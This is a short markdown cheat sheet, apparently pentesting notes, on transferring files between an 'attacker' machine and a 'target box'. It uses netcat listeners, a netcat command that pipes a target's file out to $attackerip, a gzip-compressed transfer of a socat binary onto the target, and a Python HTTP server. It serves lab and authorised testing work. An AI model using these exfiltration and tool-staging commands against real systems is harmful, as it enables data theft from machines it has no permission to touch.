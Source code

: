 # Transfering Files

## Netcat File Transfer

* Step 1
* Create a file on the target box in the /tmp directory

```
touch file.txt
```

* Set up the listener and direct STDOUT into the new file

```
nc -nlvp 1234 > file.txt
```

\-Send the file

```
nc [target box ip] 1234 < file-to-be-transfered.txt
```

#### Method Two

* On attacker run:

```
nc -lvp 443> transfer.txt
```

* On target run:

```
cat transfer.txt | nc $attackerip 443
```

### NC Transfer with gzip data

```
//on target machine 
nc -nvlp 10000 | gzip -d > .y
//local machine 
cat ~/tools/static-binaries/socat/socat | gzip -c - | nc 127.0.0.1 10000
// check md5 hashes match on both systems
```

## Web Servers:

### Python HTTP Server File Transfer

* Start the Python Server in the directory where the file is located that you want to transfer
* Use the ip address assigned to your box, if there is a vpn involved use the vpn address

```
python3 -m http.server
```
